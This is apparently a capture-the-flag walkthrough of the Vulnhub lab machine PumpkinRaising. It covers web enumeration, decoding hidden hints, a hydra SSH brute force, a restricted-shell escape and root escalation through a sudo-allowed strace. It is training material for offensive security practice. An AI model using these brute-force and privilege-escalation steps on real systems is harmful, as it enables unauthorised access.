

# Vulnhub > Mission-Pumpkin v1.0: PumpkinRaising

**About Release**

* Name: Mission-Pumpkin v1.0: PumpkinRaising
* Date release: 2 Jul 2019
* Author: Jayanth
* Series: Mission-Pumpkin v1.0

**Download**

* PumpkinRaising.ova (Size: 844 MB)
* Download: https://www.dropbox.com/s/z5wq79rboul0yqd/PumpkinRaising.ova?dl=0
* Download (Mirror): https://download.vulnhub.com/missionpumpkin/PumpkinRaising.ova
* Download (Torrent): https://download.vulnhub.com/missionpumpkin/PumpkinRaising.ova.torrent ([Magnet](magnet:?xt=urn:btih:CC4C598D46C83E9B947F8F9F52C45A3B99BCA3AD&dn=PumpkinRaising.ova&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file.

# Services Enumeration

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1a:de:2a:25:2c:cc:51:4b:7a:a0:e0:73:23:b9:3a:64 (DSA)
|   2048 f4:67:d3:d3:e5:24:c0:fc:c4:60:07:1c:1a:34:e9:54 (RSA)
|   256 10:ce:a1:ee:54:27:03:2d:a0:b1:dc:75:80:f2:db:8b (ECDSA)
|_  256 6c:9d:b1:8d:ab:1f:3a:7c:e9:ad:bd:db:d8:81:d7:87 (ED25519)
80/tcp open  http    Apache httpd
| http-robots.txt: 23 disallowed entries (15 shown)
| /includes/ /scripts/ /js/ /secrets/ /css/ /themes/ 
| /CHANGELOG.txt /underconstruction.html /info.php /hidden/note.txt 
| /INSTALL.mysql.txt /seeds/seed.txt.gpg /js/hidden.js /comment/reply/ 
|_/filter/tips/
|_http-server-header: Apache
|_http-title: Mission-Pumpkin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Web > robots.txt

There is a `robots.txt` file that discloses several locations:

~~~
kali@kali:/data/PumpkinRaising/files$ curl -s http://172.16.222.169/robots.txt
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images

# Directories
Disallow: /includes/
Disallow: /scripts/
Disallow: /js/
Disallow: /secrets/
Disallow: /css/
Disallow: /themes/

#Images
Allow: /images/*.gif
Allow: /images/*.jpg

# Files
Disallow: /CHANGELOG.txt
Disallow: /underconstruction.html
Disallow: /info.php
Disallow: /hidden/note.txt
Disallow: /INSTALL.mysql.txt
Disallow: /seeds/seed.txt.gpg
Disallow: /js/hidden.js

# Paths (clean URLs)
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /scripts/pcap
Disallow: /node/add/
Disallow: /security/gettips/
Disallow: /search/hidden/
Disallow: /user/addme/
Disallow: /user/donotopen/
Disallow: /user/
Disallow: /user/settings/
~~~

Many of these locations don't exist or don't have directory listing enabled. The discovery of hidden files in these locations with gobuster doesn't help.

~~~
kali@kali:/data/PumpkinRaising$ for i in `curl -s http://172.16.222.169/robots.txt | grep Disallow | cut -d ":" -f2 | sed "s/\ //"`; do echo $i; curl -I http://172.16.222.169$i; done
/includes/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/scripts/ <----------------------------------------------- no directory listing
HTTP/1.1 403 Forbidden
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/js/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/secrets/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/css/ <-------------------------------------------------- no directory listing
HTTP/1.1 403 Forbidden
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/themes/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/CHANGELOG.txt
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/underconstruction.html <--------------------------------- may be interesting
HTTP/1.1 200 OK
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Last-Modified: Thu, 20 Jun 2019 09:38:21 GMT
ETag: "396-58bbe1b526c9f"
Accept-Ranges: bytes
Content-Length: 918
Vary: Accept-Encoding
Content-Type: text/html

/info.php
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/hidden/note.txt <---------------------------------------- may be interesting
HTTP/1.1 200 OK
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Last-Modified: Mon, 17 Jun 2019 16:52:59 GMT
ETag: "4a-58b87d424509e"
Accept-Ranges: bytes
Content-Length: 74
Vary: Accept-Encoding
Content-Type: text/plain

/INSTALL.mysql.txt
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/seeds/seed.txt.gpg <------------------------------------- may be interesting
HTTP/1.1 200 OK
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Last-Modified: Mon, 17 Jun 2019 02:26:20 GMT
ETag: "242-58b7bb8ba2b00"
Accept-Ranges: bytes
Content-Length: 578
Vary: Accept-Encoding
Content-Type: text/plain

/js/hidden.js
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/comment/reply/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/filter/tips/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/scripts/pcap
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/node/add/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/security/gettips/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/search/hidden/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/user/addme/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/user/donotopen/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/user/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1

/user/settings/
HTTP/1.1 404 Not Found
Date: Tue, 20 Oct 2020 11:36:20 GMT
Server: Apache
Content-Type: text/html; charset=iso-8859-1
~~~

# Web pages

## /index.html

There is a base64 encoded comment on the main page, but it's a rabbit hole:

~~~
kali@kali:/data/PumpkinRaising/files$ curl -s http://172.16.222.169/ | grep "<\!--"
        <!-- VGhpcyBpcyBqdXN0IHRvIHJlbWFpbmQgeW91IHRoYXQgaXQncyBMZXZlbCAyIG9mIE1pc3Npb24tUHVtcGtpbiEgOyk= -->
kali@kali:/data/PumpkinRaising/files$ echo "VGhpcyBpcyBqdXN0IHRvIHJlbWFpbmQgeW91IHRoYXQgaXQncyBMZXZlbCAyIG9mIE1pc3Npb24tUHVtcGtpbiEgOyk=" | base64 -d
This is just to remaind you that it's Level 2 of Mission-Pumpkin! ;)
~~~

## `/pumpkin.html`

### First comment (pcap file)

The main page has a link to `pumpkin.html`, which also has a comment. It discloses a hidden file in the `/scripts` directory:

~~~
kali@kali:/data/PumpkinRaising/files$ curl -s http://172.16.222.169/pumpkin.html | grep -E "<\!--(.*)-->"
<!-- F5ZWG4TJOB2HGL3TOB4S44DDMFYA==== -->
kali@kali:/data/PumpkinRaising/files$ echo "F5ZWG4TJOB2HGL3TOB4S44DDMFYA====" | base32 -d
/scripts/spy.pcap
~~~

Download the network traffic capture file and open it in Wireshark. Follow the TCP stream to reveal the following message:

~~~
Hey Jack, Robert has given me your contact. I'm sure I have the seeds that you want
Hi Mark, I'm greatful that you have the seeds
Please share the seed ID so that I can get you exact seeds
Sure, 50609 is the ID
Thank you, I have the seeds. You'll get your seeds in a couple of days
Thank you so much Mark
You're welcome
~~~

### Second comment (Acorn Pumpkin Seeds ID)

There is a serie of hex characters in a comment at the bottom of the source code.

~~~
$ echo "59 61 79 21 20 41 70 70 72 65 63 69 61 74 65 20 79 6f 75 72 20 70 61 74 69 65 6e 63 65 20 3a 29 0a 41 6c 6c 20 74 68 69 6e 67 73 20 61 72 65 20 64 69 66 66 69 63 75 6c 74 20 62 65 66 6f 72 65 20 74 68 65 79 20 62 65 63 6f 6d 65 20 65 61 73 79 2e 0a 41 63 6f 72 6e 20 50 75 6d 70 6b 69 6e 20 53 65 65 64 73 20 49 44 3a 20 39 36 34 35 34 0a 0a 44 6f 2c 20 72 65 6d 65 6d 62 65 72 20 74 6f 20 69 6e 66 6f 72 6d 20 4a 61 63 6b 20 74 6f 20 70 6c 61 6e 74 20 61 6c 6c 20 34 20 73 65 65 64 73 20 69 6e 20 74 68 65 20 73 61 6d 65 20 6f 72 64 65 72 2e" | xxd -r -p
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454

Do, remember to inform Jack to plant all 4 seeds in the same order.
~~~

## `/hidden/note.txt`

One of the locations disclosed by the `robots.txt` file is a note that contains usernames and passwords.

~~~
kali@kali:/data/PumpkinRaising/files$ curl -s http://172.16.222.169/hidden/note.txt
Robert : C@43r0VqG2=
Mark : Qn@F5zMg4T
goblin : 79675-06172-65206-17765
~~~

However, none of these credentials worked against the SSH service. Let's keep the passwords for later.

## `/underconstruction.html` (Lil' Pump-Ke-Mon Pumpkin seeds ID)

One of the locations in the `robots.txt` file is a html file (`underconstruction.html`). It discloses the name a an image (`jackolantern dot GraphicsInterchangeFormat is under images`):

~~~
kali@kali:/data/PumpkinRaising/files$ curl http://172.16.222.169/underconstruction.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Under Construction</title>
<link rel="icon" href="images/favicon.ico" type="image/gif" sizes="16x16">

</head>
<body>

	
<h6>Image Credits : <a href="https://www.andyhau.com/">A.H.A. Design Ltd.</a>
<h3> +++ PAGE UNDER CONSTRUCTION +++</h3>

<h4>jackolantern dot GraphicsInterchangeFormat is under images</h4>
</body>
</html>
~~~

Let's download the image file (http://172.16.222.169/images/jackolantern.gif). We can't use steghide for `*.gif` files, but StegoSuite supports this format.

~~~
kali@kali:/data/PumpkinRaising/files$ cat decorative.txt 
Fantastic!!! looking forward for your presence in pumpkin party.
Lil' Pump-Ke-Mon Pumpkin seeds ID : 86568
~~~

## `/seeds/seed.txt.gpg` (BIGMAXPUMPKIN SEEDS ID)

Another file listed in the `robots.txt` file involves a GPG encrypted file:

~~~
$ wget http://172.16.222.169/seeds/seed.txt.gpg
~~~

The file can be decrypted with the password "SEEDWATERSUNLIGHT", which is the concatenation of 3 words on the main web page ("SEED", "WATER" and "SUNLIGHT"):

~~~
kali@kali:/data/PumpkinRaising/files$ gpg --decrypt seed.txt.gpg 
gpg: AES256 encrypted data
gpg: encrypted with 1 passphrase
           
                               _
                              /\              )\
                _           __)_)__        .'`--`'.
                )\_      .-'._'-'_.'-.    /  ^  ^  \
             .'`---`'. .'.' /o\'/o\ '.'.  \ \/\/\/ /...-_..
            /  <> <>  \ : ._:  0  :_. : \  '------'       _J_..-_
            |    A    |:   \\/\_/\//   : |     _/)_    .'`---`'.    ..-_
'...    ..  \  <\_/>  / :  :\/\_/\/:  : /   .'`----`'./.'0\ 0\  \
           _?_._`"`_.'`'-:__:__:__:__:-'   /.'<\   /> \:   o    |..-_
        .'`---`'.``  _/(              /\   |:,___A___,|' V===V  /
       /.'a . a  \.'`---`'.        __(_(__ \' \_____/ /'._____.'
       |:  ___   /.'/\ /\  \    .-'._'-'_.'-:.______.' _?_            ..-.
..-    \'  \_/   |:   ^    |  .'.' (o\'/o) '.'.     .'`"""`'.-...-_
        '._____.'\' 'vvv'  / / :_/_:  A  :_\_: \   /   ^.^   \
                  '.__.__.' | :   \'=...='/   : |  \  `===`  /
         --                  \ :  :'.___.':  : /    `-------`
                    -.        '-:__:__:__:__:-'..
.._,'...-.._,'...-.._,'...-.._,'...-.._,'...-.._,'...-.._,'...-.._,'...-
-.-- .. .--. .--. . . -.-.--
                                -.-- --- ..-
    .- .-. .
                        --- -.
                                                               - .... .
       .-. .. --. .... -
                     .--. .- - .... .-.-.- .-.-.- .-.-.-
                            -... .. --. -- .- -..- .--. ..- -- .--. -.- .. -.
... . . -.. ...
                 .. -.. ---...
                                    -.... ----. ..... ----- --...
~~~

This ASCII art contains a code in morse, that we can decode:

~~~
YIPPEE! YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507 
~~~

# SSH connection (jack)

## Brute force jack's password

We have now collected the 4 seeds:

* 50609 (pcap)
* 96454 (Acorn Pumpkin Seeds ID)
* 86568 (Lil' Pump-Ke-Mon Pumpkin seeds ID)
* 69507 (BIGMAXPUMPKIN SEEDS ID)

We know from a previous hint that we should put these seed together (concatenation) to build a password. Below are all possible combinations:

~~~
50609964548656869507
96454506098656869507
86568506099645469507
50609865689645469507
96454865685060969507
86568964545060969507
86568964546950750609
96454865686950750609
69507865689645450609
86568695079645450609
96454695078656850609
69507964548656850609
69507506098656896454
50609695078656896454
86568695075060996454
69507865685060996454
50609865686950796454
86568506096950796454
96454506096950786568
50609964546950786568
69507964545060986568
96454695075060986568
50609695079645486568
69507506099645486568
~~~

Let's brute force jack's password using this dictionary:

~~~
kali@kali:/data/PumpkinRaising/files$ hydra -l jack -P ssh-passwords.txt ssh://172.16.222.169
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-20 20:27:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://172.16.222.169:22/
[22][ssh] host: 172.16.222.169   login: jack   password: 69507506099645486568
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-20 20:27:09
~~~

Hydra found jack's password: `69507506099645486568`. Let's connect:

~~~
kali@kali:/data/PumpkinRaising/files$ ssh jack@172.16.222.169
jack@172.16.222.169's password: 
------------------------------------------------------------------------------
                          Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
Last login: Tue Jun 18 21:04:28 2019 from 192.168.1.105
jack@Pumpkin:~$ pwd
/home/jack
jack@Pumpkin:~$ ls -la
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
jack@Pumpkin:~$ 
~~~

## Evade the restricted bash (rbash)

We are in a restricted bash. One technique to bypass it is to pass `bash -l` as a parameter to the SSH connection, as follows:

~~~
$ ssh jack@172.16.222.169 -t "bash -l"
~~~

# Privilege Escalation

Checking jack's privileges reveals that we can run `strace` as `root` without password:

~~~
jack@Pumpkin:/$ sudo -l
Matching Defaults entries for jack on Pumpkin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on Pumpkin:
    (ALL) NOPASSWD: /usr/bin/strace
~~~

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/strace/#sudo) reveals that we can exploit this to elevate our privileges:

~~~
jack@Pumpkin:/$ sudo strace -o /dev/null /bin/bash
root@Pumpkin:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Now, let's get the root flag

~~~
root@Pumpkin:/# cd /root
root@Pumpkin:/root# ls -la
total 60
drwx------  5 root root  4096 Jun 18  2019 .
drwxr-xr-x 22 root root  4096 Jun 14  2019 ..
-rw-------  1 root root  4991 Jun 18  2019 .bash_history
-rw-r--r--  1 root root    11 Jun 18  2019 .bash_logout
-rw-r--r--  1 root root  3106 Feb 20  2014 .bashrc
drwx------  2 root root  4096 Jun 16  2019 .cache
-rw-------  1 root root    98 Jun 18  2019 flag.txt
drwx------  2 root root  4096 Jun 16  2019 .gnupg
-rw-------  1 root root    11 Jun 20  2019 .nano_history
-rw-r--r--  1 root root   140 Feb 20  2014 .profile
drwx------  2 root root  4096 Jun 16  2019 .ssh
-rw-------  1 root root 12288 Jun 16  2019 .swp
root@Pumpkin:/root# cat flag.txt 
Congratulation! 
Jack will take care of planting your seeds. 
Hope to see you at Pumpkin Festival
~~~
